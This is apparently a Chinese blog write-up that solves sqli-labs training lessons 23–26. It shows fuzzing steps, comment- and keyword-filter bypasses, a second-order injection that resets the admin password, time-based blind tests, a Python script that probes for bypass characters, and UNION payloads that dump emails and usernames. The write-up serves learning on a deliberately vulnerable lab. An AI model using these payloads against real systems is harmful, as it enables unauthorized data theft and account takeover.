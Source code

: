 ```yaml
---
layout: post
title: SQL注入（十二）
desc: ""
keywords: ""
date: 2016-11-16 
categories: []
tags: []
---
```


<h2>Less-23</h2>

<h3>Fuzz</h3>

?id=1'#+ 不起作用

?id=1' 报错

怀疑可能过滤掉了注释符号，考虑用构造原本语句的方法绕过。

找到一个简单的判断方法，在加单引号以后加上%23和%24进行对比，发现%23这一URL编码没有出现#，说明被过滤了

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_fuzz1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_fuzz2.png" />

<h3>Payload</h3>

<pre class="lang:default decode:true">?id=-1' union select 1,database(),user() or '1'='1</pre>

发现注释符号应该与后面被注释的内容隔开至少一个空格，否则注释不起作用。比如可以用+--+

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_limit.png" />

突然发现很奇怪，因为有一列总是显示不出来，后来想到是语句里面的 limit 0,1 没有办法被注释掉

这题还有其他解法吗？求教各位（group_concat???）

<h2>Less-24</h2>

简直有毒==

<h3>概述</h3>

是一个比较完整的登录界面，有用户注册、用户登录的功能，登陆后可以修改密码。

审计一下源码，发现对在注册页面对注册用户名、原密码、新密码、确认密码都有过滤，更改密码页面对原密码、新密码有过滤，于是只剩下用户名可以用。

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_php.png" />

注意这里的过滤并非上一题的替代，只是转义而已。于是数据将会被以原来的形式保存进数据库，不会有删改，只是转义后在调用的时候不会有原来的效果。

<h3>Payload</h3>

<ol>
<li>注册名为<code>admin' --</code>的用户（注意在两个短线后面有一个<strong>空格</strong>）</li>
<li>登录，更改密码</li>
</ol>

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_change.png" />

这里要复习一下之前讲过的更新数据的语句，语句是

<pre class="lang:default decode:true">UPDATE users SET PASSWORD='abc' where username='admin' and password='admin' ;</pre>

由于我们的用户名带有注释符号，于是就在更改时变成了

<pre class="lang:default decode:true">UPDATE users SET PASSWORD='abc' where username='admin' -- ' and password='admin' ;</pre>

成功改掉admin的密码

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_payload.png" />

<h2>Less-25 &amp; Less-25a</h2>

<h3>Fuzz</h3>

通过?id=1' or1的方法对比Less1和Less25发现他们的区别，过滤掉了or和and

<img src="http://oc42vgpoj.bkt.clouddn.com/Less25_fuzz1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/Less25_fuzz2.png" />

如果大小写敏感的话可以通过大小写绕过，然鹅这里不敏感，所以可以用数学符号绕过，或者双写（这个给满分）

<h3>Payload</h3>

<ul>
<li>or:</li>
<li>||</li>
<li>oorr</li>
<li>and:</li>
<li>&amp;&amp; （URL编码为%26%26）</li>
<li>anandd</li>
</ul>

简直精彩

Less-25a只是换成了盲注，可以用以下方法判断

?id=1 %26%26 sleep(10)
?id=-1 || sleep(10)

挂起则说明这样能够起作用

##Less-26

又开始玩花了，这次过滤的更全了

<h3>Fuzz</h3>

?id=%231 // 判断过滤了注释
?id=%or1 // 判断过滤了or
?id=%and // 判断过滤了and
?id=/&#42;1 // 过滤了斜杠和反斜杠
?id=1' ' ' // 过滤了空格

<h3>Payload</h3>

搞一个脚本来判断哪些可能可以用

<pre class="lang:python decode:true"># -*- coding: utf-8 -*-
import requests

def changeToHex(num):
tmp = hex(num).replace("0x",'')
if len(tmp)&lt;2:
tmp = '0' + tmp
return "%"+tmp


for i in range(256):
i = changeToHex(i)
url = "http://192.168.137.129/sqli/Less-26/?id=1'" + i +"%26%26" + i + "'1'='1"
responce = requests.get(url)
if('Dumb') in responce.content:
print "%s works!" %i</pre>

结果

<pre class="lang:default decode:true">%09 works! // tab
%0a works! // linefeed
%0b works! // 不明（空格）
%0c works! // 不明（空格）
%0d works! // c return
%20 works! // space
%22 works! // 双引号
%23 works! //#
%27 works! //单引号
%2a works! //星号
%2d works! //减号
%2f works! //斜线
%5c works! //反斜线
%a0 works! //不明（空格）</pre>

<pre class="lang:tsql decode:true ">?id=0%27union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables
%a0where%a0table_schema='security'%26%26%a0%271%27=%271

?id=0%27%a0union%a0select%a01,group_concat(email_id),3%a0from%a0emails%a0union
%a0select(1),2,'3

（留坑待填）

?id=0' union select 1,email_id,3 from emails where 1 &amp;&amp; '1'='1 
?id=0' union select 1,username,3 from security.users where 1 &amp;&amp; '1</pre>

&nbsp;
